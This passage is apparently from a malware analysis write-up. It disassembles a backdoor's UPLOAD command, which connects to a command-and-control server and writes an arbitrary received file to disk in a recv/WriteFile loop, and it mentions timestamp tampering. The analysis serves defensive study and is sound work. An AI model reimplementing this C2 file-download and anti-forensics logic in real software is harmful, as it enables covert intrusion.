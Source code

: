 * null
* A pointer to the same delimiter (a space)

This time, the call will return a pointer to the second token ("`X`").

#### Command UPLOAD

The expected format of the command is `UPLOAD Port FileName`. The values of `Port` and `FileName` are retrieved through calls to `_strtok()` as explained previously. This command leads to a call to function `0x004019E0` (renamed `NET_Upload()`):

```
.text:00402153      mov     [ebp+token_upload], eax ; token[2]=FileName
.text:00402159      mov     edx, [ebp+token_upload]
.text:0040215F      push    edx
.text:00402160      mov     eax, [ebp+port]
.text:00402166      push    eax             ; token[1]=port
.text:00402167      mov     ecx, [ebp+C2]
.text:0040216A      push    ecx             ; malicious domain
.text:0040216B      call    NET_Upload
```

Inside the function `NET_Upload()`, a socket connection is established with the C&C and the API `CreateFileA` is used to get a file handle with **write** permission (code not shown). Then, APIs `recv` and `WriteFile` are called in a loop to download and write an arbitrary file by chunks of 0x200 bytes:

```
.text:00401A53 download_continue:
.text:00401A53      push    0               ; flags
.text:00401A55      push    200h            ; len
.text:00401A5A      lea     edx, [ebp+Buffer]
.text:00401A60      push    edx             ; buf
.text:00401A61      mov     eax, [ebp+s]
.text:00401A64      push    eax             ; s
.text:00401A65      call    ds:recv
.text:00401A6B      mov     [ebp+nNumberOfBytesToWrite], eax
.text:00401A6E      push    0               ; lpOverlapped
.text:00401A70      push    0               ; lpNumberOfBytesWritten
.text:00401A72      mov     ecx, [ebp+nNumberOfBytesToWrite]
.text:00401A75      push    ecx             ; nNumberOfBytesToWrite
.text:00401A76      lea     edx, [ebp+Buffer]
.text:00401A7C      push    edx             ; lpBuffer
.text:00401A7D      mov     eax, [ebp+hFile]
.text:00401A83      push    eax             ; hFile
.text:00401A84      call    ds:WriteFile
[...]
.text:00401AAE write_success:
.text:00401AAE      cmp     [ebp+nNumberOfBytesToWrite], 0
.text:00401AB2      jg      short download_continue
```

After that, the time-related information of the file are altered using the method described in the [Installation](#tampering-with-timestamps) section. 
